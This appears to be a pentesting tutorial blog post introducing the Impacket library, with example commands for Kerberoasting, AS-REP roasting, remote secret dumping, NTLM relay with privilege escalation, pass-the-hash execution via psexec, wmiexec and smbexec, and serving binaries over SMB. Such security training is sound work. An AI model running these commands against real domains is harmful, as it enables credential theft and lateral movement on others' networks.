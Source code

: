 ```yaml
---
layout: post
published: true
title: Windows Exploitation 11.1
tags:
  - PWP
  - Intermediate
  - Windows Exploitation
comments: true
---
```

## Impacket in Action


## Introduction 

In this blog post we will learn about Impacket library, and its usage during pentesting, we will also discuss some of the useful tools of this library.
This post is for those who know the basics of Active Directory and Windows Administration Services. If you're new, please do a google search if you feel uncomfortable.



**Impacket**

https://github.com/SecureAuthCorp/impacket.git

Clone the repo

```
git clone https://github.com/SecureAuthCorp/impacket.git
```

**Impacket** is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library.





**What protocols are featured?**

* Ethernet, Linux "Cooked" capture.
* IP, TCP, UDP, ICMP, IGMP, ARP.
* IPv4 and IPv6 Support.
* NMB and SMB1, SMB2 and SMB3 (high-level implementations).
* MSRPC version 5, over different transports: TCP, SMB/TCP, SMB/NetBIOS, and HTTP.
* Plain, NTLM, and Kerberos authentications, using password/hashes/tickets/keys.
* Portions/full implementation of the following MSRPC interfaces: EPM, DTYPES, LSAD, LSAT, NRPC, RRP, SAMR, SRVS, WKST, SCMR, BKRP, DHCPM, EVEN6, MGMT, SASEC, TSCH, DCOM, WMI.
* Portions of TDS (MSSQL) and LDAP protocol implementations.


```
pip install -r requirements.txt
```

```
python setup.py install
```

You can find any of the impacket tools in '/impacket/examples' file.

**Explanation**

**addcomputer.py:** Allows to add a computer to a domain using LDAP or SAMR (SMB).

```
addcomputer.py -method SAMR -computer-pass <PASSWORD> -computer-name <NAME> DOMAIN/USER:PASSWORD
```
We have added a new computer using SAMR(Security Account Manager (SAM) Remote Protocol (Client-to-Server)) to a domain.


**GetUserSPNs.py**: This example will try to find and fetch Service Principal Names that are associated with normal user accounts. The output is compatible with JtR and HashCat.


If we found any user accounts configured with the unconstrained delegation, we can obtain its Kerberos tickets and can try to crack that ticket.

```
GetUserSPNs.py DOMAIN/USER:PASSWORD -request-user <UNCONSTRAINED_USER>
```

**GetNPUsers.py:** This example will attempt to list and get TGTs for those users that have the property 'Do not require Kerberos preauthentication' set (UF_DONT_REQUIRE_PREAUTH). The output is compatible with JtR.

```
GetNPUsers.py DOMAIN/USER -dc-ip 10.10.10.161 (TargetIP)
```

**secretdump.py**
Performs various techniques to dump secrets from the remote machine without executing any agent there.


```
secretsdump.py  DOMAIN/USER:PASSWORD@<VictimIP>
```
```
secretsdump Empire/locus:brokeme@198.162.0.1
```


**lookupsid.py**: It used to enumerate local and domain users in target windows machine. 

```
lookupsid.py user:password@<targetip>
```

**ntlmrelayx.py:** This script performs NTLM Relay Attacks, setting an SMB and HTTP Server and relaying credentials to many different protocols (SMB, HTTP, MSSQL, LDAP, IMAP, POP3, etc.). The script can be used with predefined attacks that can be triggered when a connection is relayed (e.g. create a user through LDAP) or can be executed in SOCKS mode. In this mode, for every connection relayed, it will be available to be used later on multiple times through a SOCKS proxy.


```
ntlmrelayx.py --escalate-user username -t ldap://DOMAIN_CONTROLLER
```


```
ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco
```

**psexec.py**: it is used to perform remote code execution, it executes processes on remote systems and redirects console applications' output to the local system so that these applications appear to be running locally.


```
psexec.py -hashes <LM hash>  domain/user@<TargetIP> 
```
```
psexec.py -hashes :73ry4923rho24jr2jeor2po3j Empire/administrator@192.168.10.16 powershell.exe
```

**smbexec.py**: It focuses on using native windows functions/features for post-exploitation and expanding access on a network after you gain some credentials, whether that be a hash or password for a local or domain account. It's similar to psexec.

```
smbexec.py Empire/administrator@192.168.10.16
```


You can also use hash.


**wmiexec.py:** A semi-interactive shell, used through Windows Management Instrumentation. It does not require to install any service/agent at the target server. Runs as Administrator. Highly stealthy.

```
wmiexec.py 'Empire/administrator@192.168.10.16'
```

**smbserver.py:** A Python implementation of an SMB server. Allows to quickly set up shares and user accounts.
```
smbserver.py temp /DIRECTORY/win_binaries
```
You have run smb server in your machine now you can share resources and also Windows utilities with the target system.
To check the server 

```
smbclient //yourIP/temp
```

On target system 
```
\\10.10.14.6\temp\whoami.exe
```

## Conclusion

_**We have discussed some tools with their basic usage that will help us in Exploitation and Post Exploitation phases, I recommend you to read resources I have given below**_




Some reference links :

``
https://www.secureauth.com/labs/open-source-tools/impacket
``

``
http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html
``

``
https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/
``

